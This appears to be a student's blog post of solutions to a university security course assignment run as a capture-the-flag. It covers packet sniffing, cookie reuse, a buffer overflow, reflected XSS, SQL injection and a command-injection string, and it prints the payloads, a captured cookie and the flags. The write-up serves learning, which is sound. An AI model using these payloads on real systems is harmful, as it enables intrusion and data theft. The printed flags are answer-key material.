```yaml
---
layout: post
published: true
title: CS2107 - Assignment 2
---
```

# Introduction to wireshark
1. Download the pcap
2. right click the packet  > Follow > TCP stream
3. Flag is inside

code: `flag{b@bYsh@rk_doo0o0o_W1r3sh@rk_doOo0o_d0o0o0o_d0o_W1rEsh@rk}`

# Cookie Monster
1. Filter the wireshark by cookie `http.cookie`
2. Search for the cookie within the packet
	`cs2107 = 19d07781081e792d7a67d85c3cd1b061`
3. Enter the website in the packet: http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb (It mus say nice try)
4. Insert the cookie you have found in step 2

Flag: `http://ctf.nus-cs2107.com:10005/uiadfug239ghaedgfb`

# Stack Overflow
1. Install x32 in ubuntu
```bash
sudo dpkg --add-architecture i386
sudo apt-get update
sudo apt-get install libc6:i386 libncurses5:i386 libstdc++6:i386
```
2. Little endian want ur input to be in this format: `0721CDAB`
3. `echo -n -e '\x07\x21\xcd\xab'`
4. Buffer overflow the programmer with 36 characters at the front 
5. Use pipelining to push the output into ur program 
	`echo -n -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | ./simple`
- [Idea](https://stackoverflow.com/questions/26949856/how-do-you-take-user-input-as-hex-characters-through-gets-function-linux)
6. Just do the same thing on the actual server
`echo -e 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x07\x21\xcd\xab' | nc ctf.nus-cs2107.com 10003`

Flag: `flag{6e97e993d3caa7952c170accf2398f78}`

# XSS me
1. Enter the following into the textbox
`"><script>alert('gimme the flag pls')</script>`

Flag: `flag{R3fleCt3D_xSs_is_V3R7_34Sy_R1GH7?}`

# SQL Statment

## Level 1
- Insert: `1'!='1` in textbox

> `1` and `1` are not equal (Character)

Flag: `flag{WhO_dO3sN't_LOv3_Fr33_M4rk5!}`

## Level 2
- Insert: `1!=1; --or ' or 1=1-- or 1=1--` in textbox

Working:
- The `--` becomes a comment
- First query: Ignores the stuff behind the `--`
- Second query: Ignore the front before the `--` since its in quotes 
Flag: `flag{pR3qU3l_1s_sO_mucH_eZ13r_wh3n_c0mP4r3D_tO_tH1$}`

## Level 3
- Insert: `1!=1; --or ' or 1=1-- or 1=1--'" != "a`

Working:
- From Part 2, insert: `" ! = "a`
- This covers the front " for query 3
- Essentially for query 3, it is just querying `"a"!="a"`

flag{w0w_4R3nt_y0u_4_S3Qu3L_M4$T3R!!!}

# Little match girl
1. Enter `-1`
2. Enter 49 numbers that are >0
3. Enter 0
> You can use an input txt
4. `cat input.txt | nc ctf.nus-cs2107.com 24242`

Flag: `flag{ce918eee1658c91db92b215f1ced33b0}`

# Sneak peak
- See the permission: ` ls -al`
- `'|cat   fla'g.txt`: The space is a space
- Flag: `flag{7h3_cOw_MOO_c0w_54ID_n07h1nG?}`


